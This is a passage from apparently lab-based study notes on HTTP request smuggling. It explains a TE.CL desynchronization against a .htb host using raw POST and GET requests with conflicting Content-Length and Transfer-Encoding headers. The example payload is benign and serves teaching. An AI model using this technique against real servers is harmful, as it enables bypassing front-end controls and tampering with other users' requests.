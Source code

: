 - Now let's look at the request from the web server's perspective. The web server uses the CL header to determine the request length. The CL header gives a length of 3 bytes, meaning the request body is parsed as the following 3 bytes:
```http
5\r\n
```
- In particular, the bytes `HELLO\r\n0\r\n\r\n` are not consumed from the TCP stream. This means that the web server thinks this marks the beginning of a new HTTP request. 
- Again, we successfully created a desynchronization between the reverse proxy and the web server since the reverse proxy and web server disagree on the request boundaries.

- What happens if the next request arrives?? Let's assume the next request that hits the reverse proxy looks like this:
```http
GET / HTTP/1.1
Host: tecl.htb

```
- Now let's look at the complete TCP stream containing both these subsequent requests, According to the reverse proxy, the TCP stream should be split into the two requests like this:
```http
POST / HTTP/1.1
Host: tecl.htb
Content-Length: 3
Transfer-Encoding: chunked

5
HELLO
0
```
```http
GET / HTTP/1.1
Host: tecl.htb
```
- We can see that the first request's body ends after the empty chunk and the subsequent request starts with the GET keyword. Now let's look at it from the perspective of the web server:
```http
POST / HTTP/1.1
Host: tecl.htb
Content-Length: 3
Transfer-Encoding: chunked

5
```
```http
HELLO
0

GET / HTTP/1.1
Host: tecl.htb

```
- Since the web server thinks the first request ends after the bytes `5\r\n`, the bytes `HELLO\r\n0\r\n\r\n` are prepended to the subsequent request. In this case, the web server will most likely respond with an error message since the bytes HELLO are not a valid beginning of an HTTP request.
